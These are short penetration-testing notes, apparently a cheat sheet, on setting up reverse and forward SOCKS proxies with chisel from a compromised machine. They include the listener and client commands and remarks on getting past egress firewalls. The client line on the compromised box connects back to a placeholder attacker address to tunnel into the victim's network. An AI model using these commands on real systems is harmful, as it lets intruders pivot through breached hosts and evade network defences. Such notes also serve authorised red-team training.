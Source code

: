 ## Reverse SOCKS Proxy

This connects back from a compromised box to a listener waiting on our attacking box

On the attack box set up a listener:
`./chisel server -p LISTEN_PORT --reverse &`

On the compromised box:
`./chisel client ATTACKING_IP:LISTEN_PORT R:socks &`
This command connects back to listener on attack box, completing proxy

---

## Forward SOCKS Proxy

This is used rarely because reverse shells are more common than bind shells. Egress firewalls (handling outbound traffic) are easier to bypass than ingress firewalls (inbound connections).

On compromised box:
`./chisel server -p LISTEN_PORT --socks5`

On attacking box:
`./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`

`PROXY_PORT` is the port that will be opened for the proxy




